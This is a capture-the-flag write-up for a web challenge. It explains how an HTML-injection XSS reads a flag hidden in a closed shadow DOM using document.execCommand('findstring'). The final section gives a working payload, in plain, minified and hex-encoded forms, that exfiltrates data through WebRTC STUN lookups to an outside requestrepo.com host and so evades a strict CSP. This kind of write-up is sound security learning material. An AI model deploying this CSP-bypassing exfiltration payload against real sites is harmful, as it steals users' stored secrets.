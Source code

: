 # Baby Sandbox

This is an easy client-side challenge

## Overview

We're given a few files
 - `server.js`: Contains the server code. We can see that the server serves files with a strict CSP:
```js
app.use((req, res, next) => {
    res.setHeader("Content-Security-Policy", "default-src 'none'; frame-ancestors 'none'; base-uri 'none'; form-action 'none'; script-src 'self' 'unsafe-inline';");
    next()
})
```

 - `iframe.ejs`: A simple HTML file with an obvious HTML injection:
```js
      let d = document.createElement("div");
      d.innerHTML = "<%= payload %>";
      document.body.appendChild(d);
```
 - `index.ejs`: The content of `index.ejs` will be put inside an iframe 

 - `bot.js`: Contains the bot code. It's clear that the flag will be stored in local storage. We can supply a payload to the `visit` function, which will then be viewed by the bot. Note that the bot will sleep for a short period after viewing our payload.

Finally, before inserting our payload, the flag will be placed inside a closed [https://developer.mozilla.org/en-US/docs/Web/API/Web_components/Using_shadow_DOM](shadow DOM), making it inaccessible from JavaScript.

To bypass this restriction, we can use a deprecated feature: [document.execCommand](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand)

Specifically, we can use a lesser-known command: `findstring`:
 - `document.execCommand("findstring", false, <substring>)`, returns true if the substring is found, and false otherwise. I found it [here](https://chromium.googlesource.com/chromium/src/+/refs/tags/131.0.6778.244/third_party/blink/renderer/core/editing/commands/editor_command_names.h)


After brute-forcing the flag, we can split it into chunks and exfiltrate it using WebRTC or any other method that does not violate the CSP. 

Note: since our payload will be escaped, we had to encode it using the following function
```js
def encode(payload):
    result = ""
    for c in payload:
        result += "\\x" + hex(ord(c))[2:].zfill(2)
    return result
```

## Final Exploit
```js
(() => {
    function toHex(str) {
        let hex = '';
        for(let i = 0; i < str.length; i++) {
            hex += str.charCodeAt(i).toString(16);
        }
        return hex;
    }
    
    let flag = "TRX{";
    let charset = "abcdefghijklmnopqrstuvwxyz0123456789_{}";
    for(let i = 0; i < 128; i++){
        for(let c in charset){
            res = document.execCommand("findstring", false, flag+charset[c]);
            if(res){
                flag += charset[c];
                break;
            }
        }
    }
    
    let chunkSize = 4;
    for (let i = 0; i < flag.length; i += chunkSize) {
        let chunk = flag.substring(i, i + chunkSize);
        console.log(chunk);
        let pc = new RTCPeerConnection({"iceServers":[{"urls":["stun:" + toHex(chunk) + "." + i + ".az5f3of1.requestrepo.com"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o => pc.setLocalDescription(o)).catch(e => console.error(e));
    }
    })();
```

You can then compress this and put it inside an `img` tag:
```html
<img src="#" onerror='(()=>{let o="TRX{";var r="abcdefghijklmnopqrstuvwxyz0123456789_{}";for(let e=0;e<128;e++)for(var t in r)res=document.execCommand("findstring",!1,o+r[t]),res&&(o+=r[t]);for(let e=0;e<o.length;e+=4){var n=o.substring(e,e+4);console.log(n);let r=new RTCPeerConnection({iceServers:[{urls:["stun:"+function(r){let o="";for(let e=0;e<r.length;e++)o+=r.charCodeAt(e).toString(16);return o}(n)+"."+e+".az5f3of1.requestrepo.com"]}]});r.createOffer({offerToReceiveAudio:1}).then(e=>r.setLocalDescription(e)).catch(e=>console.error(e))}})();'>
```

Encoded payload:
```js
\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x22\x23\x22\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x27\x28\x28\x29\x3d\x3e\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x54\x52\x58\x7b\x22\x3b\x76\x61\x72\x20\x72\x3d\x22\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x5f\x7b\x7d\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x31\x32\x38\x3b\x65\x2b\x2b\x29\x66\x6f\x72\x28\x76\x61\x72\x20\x74\x20\x69\x6e\x20\x72\x29\x72\x65\x73\x3d\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x65\x78\x65\x63\x43\x6f\x6d\x6d\x61\x6e\x64\x28\x22\x66\x69\x6e\x64\x73\x74\x72\x69\x6e\x67\x22\x2c\x21\x31\x2c\x6f\x2b\x72\x5b\x74\x5d\x29\x2c\x72\x65\x73\x26\x26\x28\x6f\x2b\x3d\x72\x5b\x74\x5d\x29\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x6f\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x3d\x34\x29\x7b\x76\x61\x72\x20\x6e\x3d\x6f\x2e\x73\x75\x62\x73\x74\x72\x69\x6e\x67\x28\x65\x2c\x65\x2b\x34\x29\x3b\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x6c\x6f\x67\x28\x6e\x29\x3b\x6c\x65\x74\x20\x72\x3d\x6e\x65\x77\x20\x52\x54\x43\x50\x65\x65\x72\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x28\x7b\x69\x63\x65\x53\x65\x72\x76\x65\x72\x73\x3a\x5b\x7b\x75\x72\x6c\x73\x3a\x5b\x22\x73\x74\x75\x6e\x3a\x22\x2b\x66\x75\x6e\x63\x74\x69\x6f\x6e\x28\x72\x29\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x72\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x2b\x29\x6f\x2b\x3d\x72\x2e\x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74\x28\x65\x29\x2e\x74\x6f\x53\x74\x72\x69\x6e\x67\x28\x31\x36\x29\x3b\x72\x65\x74\x75\x72\x6e\x20\x6f\x7d\x28\x6e\x29\x2b\x22\x2e\x22\x2b\x65\x2b\x22\x2e\x61\x7a\x35\x66\x33\x6f\x66\x31\x2e\x72\x65\x71\x75\x65\x73\x74\x72\x65\x70\x6f\x2e\x63\x6f\x6d\x22\x5d\x7d\x5d\x7d\x29\x3b\x72\x2e\x63\x72\x65\x61\x74\x65\x4f\x66\x66\x65\x72\x28\x7b\x6f\x66\x66\x65\x72\x54\x6f\x52\x65\x63\x65\x69\x76\x65\x41\x75\x64\x69\x6f\x3a\x31\x7d\x29\x2e\x74\x68\x65\x6e\x28\x65\x3d\x3e\x72\x2e\x73\x65\x74\x4c\x6f\x63\x61\x6c\x44\x65\x73\x63\x72\x69\x70\x74\x69\x6f\x6e\x28\x65\x29\x29\x2e\x63\x61\x74\x63\x68\x28\x65\x3d\x3e\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x65\x72\x72\x6f\x72\x28\x65\x29\x29\x7d\x7d\x29\x28\x29\x3b\x27\x3e
```

